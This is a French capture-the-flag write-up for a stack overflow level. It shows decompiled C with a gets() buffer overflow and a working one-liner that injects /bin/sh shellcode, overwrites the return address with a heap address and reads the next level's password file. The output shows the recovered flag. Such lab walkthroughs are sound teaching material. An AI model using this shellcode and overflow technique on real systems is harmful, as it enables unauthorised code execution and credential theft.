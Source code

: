 # Rapport CTF - [Level02]

### Observation :
En arrivant sur le level2 on trouve un exécutable nommé level2.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484D4) --------------------------------------------------------
char *p()
{
char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
const void *v2; // [esp+5Ch] [ebp-Ch]
unsigned int retaddr; // [esp+6Ch] [ebp+4h]

fflush(stdout);
gets(s);
v2 = (const void *)retaddr;
if ( (retaddr & 0xB0000000) == 0xB0000000 )
{
printf("(%p)\n", v2);
_exit(1);
}
puts(s);
return strdup(s);
}

//----- (0804853F) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
return (int)p();
}
```
Nous pouvons voir plusieurs chose :
- Le programme lance la fonction `p()`.
- La fonction `p()` écrits dans un buffer `s[64]` votre string.
- Ensuite la fonction `p()` test si votre adresse de retour est dans la stack, si elle l'est, alors la fonction printf l'adresse de retour puis exit.
- Sinon la fonction print avec `puts()` votre entrée puis renvois l'adresse de la chaîne malloc par strdup.


### Solution :

Nous devons donc injecter un **SHELLCODE** pour pouvoir return sur notre propre code et l'exécuter. \
On crée donc un **shellcode** et on le met au début de notre chaîne pour qu'il soit exécuté. \
Nous voulons écrire l'adresse de notre shellcode a `(s) + (void*)` = `64 + 16` octets. \
On écrit donc notre **shellcode** au début (24 octets) ensuite des octets random pour arriver a (64  + 16 - 24), ensuite nous pouvons écrire notre adresse de retour.

> Nous allons sauter à l'adresse de retour de strdup qui est dans la heap pour passer la condition.

> Le shellcode ne dois pas contenir de 0 sinon strdup ne pourras pas le copier entierement.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '\x00' * (64 + 16 - 24) + '\x08\x04\xa0\x08'[::-1])" ; echo "cat /home/user/level3/.pass") | ./level2
```

### Resultat :
```sh
j
X1�Vh//shh/bin��1ɉ�̀
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```